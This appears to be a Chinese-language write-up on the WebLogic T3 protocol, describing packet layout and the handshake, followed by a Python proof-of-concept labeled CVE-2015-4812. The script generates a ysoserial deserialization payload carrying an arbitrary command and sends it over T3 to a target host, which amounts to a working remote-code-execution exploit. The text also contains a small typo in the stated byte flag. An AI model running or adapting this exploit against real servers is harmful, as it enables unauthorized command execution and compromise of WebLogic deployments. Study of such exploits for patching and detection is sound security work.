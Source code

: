 T3协议是Weblogic RMI的通信协议。

RMI的基础通信协议是JRMP，支持其他协议来优化传输，比如Weblogic T3

### 数据包组成

T3的数据包由`【数据包长度】【T3协议头】【反序列化标志】【数据】`组成

其中T3协议头是固定的，T3协议中反序列包标志为`fe 01 00 00`，`ac ed 00 05`是反序列化标志，所以标志就是`fe 0q 00 ac ed 00 05`

直接搭配ysoserial就能打入序列化流

### T3通信过程

wireshark抓个包:打poc时直接抓127.0.0.1就行

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230318115442480.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230318115504954.png)

首先发一个握手请求：`t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n`

Weblogic回应`HELO:版本号.false`+确认请求

后面的数据包也就是我们的payload





## CVE-2015-4812漏洞复现

poc:

```py
from os import popen
import struct # 负责大小端的转换 
import subprocess
from sys import stdout
import socket
import re
import binascii

def generatePayload(gadget,cmd):
    YSO_PATH = "ysoserial-for-woodpecker-0.5.3-all.jar"
    popen = subprocess.Popen(['java','-jar',YSO_PATH,'-g',gadget,'-a',cmd],stdout=subprocess.PIPE)
    return popen.stdout.read()

def T3Exploit(ip,port,payload):
    sock =socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((ip,port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: "+"".join(match))
    else:
        print("Not Weblogic")
        return  
    header = binascii.a2b_hex(b"00000000")
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    desflag = binascii.a2b_hex(b"fe010000")
    payload = header + t3header  +desflag+  payload
    payload = struct.pack(">I",len(payload)) + payload[4:]
    sock.send(payload)
```